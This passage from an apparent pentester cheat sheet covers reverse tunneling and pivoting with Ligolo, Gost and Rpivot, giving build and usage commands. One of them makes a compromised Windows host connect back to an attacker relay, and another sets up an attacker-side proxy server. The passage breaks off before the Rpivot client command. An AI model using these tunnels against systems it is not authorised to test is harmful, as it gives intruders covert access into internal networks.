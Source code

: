 ## Ligolo

Ligolo : Reverse Tunneling made easy for pentesters, by pentesters


1. Build Ligolo
  ```powershell
  # Get Ligolo and dependencies
  cd `go env GOPATH`/src
  git clone https://github.com/sysdream/ligolo
  cd ligolo
  make dep

  # Generate self-signed TLS certificates (will be placed in the certs folder)
  make certs TLS_HOST=example.com

  make build-all
  ```
2. Use Ligolo
  ```powershell
  # On your attack server.
  ./bin/localrelay_linux_amd64

  # On the compromise host.
  ligolo_windows_amd64.exe -relayserver LOCALRELAYSERVER:5555
  ```

## Gost

> Wiki English : https://docs.ginuerzh.xyz/gost/en/

```powershell
git clone https://github.com/ginuerzh/gost
cd gost/cmd/gost
go build

# Socks5 Proxy
Server side: gost -L=socks5://:1080
Client side: gost -L=:8080 -F=socks5://server_ip:1080?notls=true

# Local Port Forward
gost -L=tcp://:2222/192.168.1.1:22 [-F=..]
```

## Rpivot

Server (Attacker box)

```python
python server.py --proxy-port 1080 --server-port 9443 --server-ip 0.0.0.0
```

Client (Compromised box)
